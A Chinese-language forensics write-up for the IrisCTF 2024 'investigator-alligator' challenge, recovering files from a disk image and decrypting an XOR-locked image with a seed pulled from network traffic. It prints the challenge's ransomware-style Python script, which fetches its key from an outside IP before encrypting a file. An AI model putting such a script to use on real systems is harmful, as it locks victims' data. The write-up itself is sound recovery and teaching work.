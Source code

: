 ### Ext4

话不多说，直接上题（Irisctf 2024）

![](https://pic1.imgdb.cn/item/6794dbecd0e0a243d4f7e589.png)

[题目附件下载链接](https://github.com/juliancasaburi/irisctf-2024/blob/main/investigator-alligator.forensics/writeup.md)

```
JoSchmoTechCo 的服务器遭到攻击！包含他们极其重要的公司机密的文件夹全部被锁起来了
幸运的是，系统管理员足够聪明，在整个过程结束时捕获了网络流量并获取了内存样本
受害用户在损失已经造成后，也在慌乱之中输入了一些内容。我们有该事件发生后的磁盘图像
您能恢复他们的文件并找出受害者输入的内容吗？
```

首先先解压缩文件，我 Windows 可以直接用 7-Zip

![](https://pic1.imgdb.cn/item/6794dc88d0e0a243d4f7e5b5.png)

拖入 WinHex 中将镜像文件转换为磁盘

![](https://pic1.imgdb.cn/item/6794e285d0e0a243d4f7e8d9.png)

在 home 目录下找到加密的 img 以及一个 Python 文件

![](https://pic1.imgdb.cn/item/6794e2bdd0e0a243d4f7e8eb.png)

右键这两个文件恢复出来

![](https://pic1.imgdb.cn/item/6794e612d0e0a243d4f7e9ff.png)

Python 文件代码如下：

```python
#!/usr/bin/env python3

import random
import socket
import sys
import time

f_if = sys.argv[1]
f_of = sys.argv[2]

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("149.28.14.135", 9281))

seed = s.recv(1024).strip()
s.close()

random.seed(seed)

with open(f_if, "rb") as f:
	data = f.read()

stream = random.randbytes(len(data))
encrypted = bytearray()

for i in range(len(data)):
	encrypted.append(data[i] ^ stream[i])

with open(f_of, "wb") as f:
	f.write(encrypted)
```

做了一个异或加密，我们再异或回去即可，但是得先拿到随机数种子

```shell
tshark -r network -Y "tcp.port == 9281" -T fields -e data | xxd -r -p
```

![](https://pic1.imgdb.cn/item/6794e44dd0e0a243d4f7e95b.png)

再编写脚本异或解密

```python
import random


def main():
    seed = "eng0jieh7ahga7eidae6taebohhaicaeraef5ahng8ohb2Tho3ahz7ojooXeixoh0thoolung7eingietai8hiechar6ahchohn6uwah2Keid5phoil7Oovool3Quai"

    random.seed(seed)

    with open('./encrypted.img', "rb") as f:
        data = f.read()

    stream = random.randbytes(len(data))

    decrypted = bytearray()

    for i in range(len(data)):
        decrypted.append(data[i] ^ stream[i])

    with open('./decrypted.img', "wb") as f:
        f.write(decrypted)


if __name__ == '__main__':
    main()
```

解密后再托入 WinHex 中找到一张图片

![](https://pic1.imgdb.cn/item/6794e64fd0e0a243d4f7ea1f.png)

同样恢复出来

![](https://pic1.imgdb.cn/item/6794e67cd0e0a243d4f7ea2b.png)

打开拿到第一段 flag

![](https://pic1.imgdb.cn/item/6794e6c2d0e0a243d4f7ea46.png)

第二段将内存转储 mem 恢复出来（试过但是报错了）

![](https://pic1.imgdb.cn/item/6794e79ed0e0a243d4f7eaa0.png)